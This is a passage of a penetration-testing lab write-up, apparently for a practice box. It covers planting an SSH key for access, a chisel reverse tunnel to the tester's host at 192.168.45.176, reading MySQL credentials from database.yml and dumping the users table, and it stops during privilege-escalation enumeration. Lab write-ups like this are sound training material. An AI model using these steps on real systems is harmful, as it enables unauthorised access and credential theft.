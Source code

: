 ```bash
ssh-keygen -t rsa
mv key.pub authorized_keys
```

![image.png](image%2018.png)

Now use the private key to get access to the target.

![image.png](image%2019.png)

## Privilege Escalation

I see directory called `boolean` and an open port on 3000.

![image.png](image%2020.png)

I will forward that port to my kali using chisel.

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

```bash
./chisel server --reverse --port 80
chisel client 192.168.45.176:51234 R:3000:127.0.0.1:3000
```

It is the same application that we encountered before:

![image.png](image%2021.png)

I found mysql credentials under `boolean/config` in `database.yml` file:

![image.png](image%2022.png)

```bash
mysql -u boolean  -p
```

![image.png](image%2023.png)

```bash
use boolean_development
show tables;
select * from users;
```

I found just our user.

![image.png](image%2024.png)

Checking running processes I see the app is run in the context of `remi` user:

![image.png](image%2025.png)

Checking current working directory closely I see `.bash_aliases` file:

![image.png](image%2026.png)
